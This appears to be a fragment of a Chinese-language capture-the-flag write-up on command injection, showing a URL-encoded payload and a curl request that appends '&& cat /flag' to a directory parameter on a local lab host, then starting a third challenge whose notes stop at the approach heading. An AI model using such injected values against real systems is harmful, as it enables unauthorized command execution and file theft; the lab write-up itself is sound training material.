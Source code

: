```
%2Fchallenge%20%26%26%20cat%20%2Fflag
```

## exp

```
curl -v http://challenge.localhost:80/?directory=%2Fchallenge%20%26%26%20cat%20%2Fflag
```



# 5-cmdi-3

什么叫做专业呢？

把一件事情，步骤化，系统化，可复制化。

比如做题写wp。

Data+Algorithms=Program

01，描述自己遇到什么问题。

02，使用自己的program能否解决问题

03，发现能够，那就实现。跳转12。

04，发现自己不能实现。

05，思考，如何快速准确高效的优化自己的Program。

06，无法优化。跳转到13。

07，可以优化。

08，优化自己的Program。

09，使用优化后的Program尝试解决问题。

10，发现自己依旧不能解决问题。跳转到05。

11，发现自己能够解决问题。

12，解决问题并记录下你的实现方法。结束。

13，立即放弃。

---



描述：

这道题在注入的时候，会存在两个单引号，执行的指令为：

```
ls -l '{directory}'
```

除此之外，不存在任何过滤。

## 思路

